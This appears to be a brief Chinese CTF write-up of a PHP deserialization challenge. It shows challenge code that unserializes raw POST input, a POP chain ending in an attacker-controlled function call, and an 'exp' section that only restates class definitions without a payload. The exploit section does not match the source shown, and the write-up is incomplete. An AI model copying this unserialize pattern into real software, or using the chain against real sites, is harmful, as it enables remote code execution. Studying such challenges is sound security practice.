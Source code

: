 ```php

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope"); 
```

又是一个反序列化，分析一下

切入点是Start，利用点是Web

pop链为：`__desturct()`->`__toString()`->`__get()`->`__invoke()`->`Web.evil()`

exp:

```php
<?php
class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

```